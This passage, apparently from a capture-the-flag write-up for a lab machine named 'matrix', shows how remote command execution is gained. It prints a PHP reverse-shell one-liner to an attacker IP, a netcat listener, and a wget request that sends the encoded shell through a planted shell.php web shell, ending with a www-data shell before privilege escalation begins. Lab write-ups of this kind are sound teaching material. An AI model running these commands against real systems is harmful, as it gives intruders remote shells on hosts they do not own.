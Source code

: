 We create a reverse shell in PHP. The IP `192.168.1.116` belongs to our attacking machine.

```bash
php -r '$sock=fsockopen("192.168.1.116",443);exec("/bin/bash <&3 >&3 2>&3");'
```

We start a listener using Netcat, encode the reverse shell in URL encoding, and send it to the `cmd` parameter of our improvised shell. To obtain a more complete shell, we handle the TTY properly.

```bash
nc -lvnp 443
```

```bash
wget http://m47r1x.matrix.nyx/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.116%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

![alt text](../../assets/images/matrix/image-14.png)

Now we are the `www-data` user.

```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ ls -la
total 36
drwxr-xr-x 2 www-data www-data 4096 Jan 29 13:27 .
drwxr-xr-x 4 root     root     4096 Jan 28 21:00 ..
-rw-r--r-- 1 root     root      361 Jan 27 02:47 filtrate-backend-matrix.php.txt
-rw-r--r-- 1 root     root     1765 Jan 27 01:04 hoja.css
-rw-r--r-- 1 root     root     4782 Jan 28 23:55 index.php
-rw-r--r-- 1 root     root      806 Jan 27 00:48 matrix.js
-rw-r--r-- 1 www-data www-data   17 Jan 29 13:26 messages.txt
-rw-r--r-- 1 www-data www-data   34 Jan 29 13:27 shell.php
```

## Privilege Escalation

We properly handle the TTY to obtain a full shell.

We check which users exist on the system.
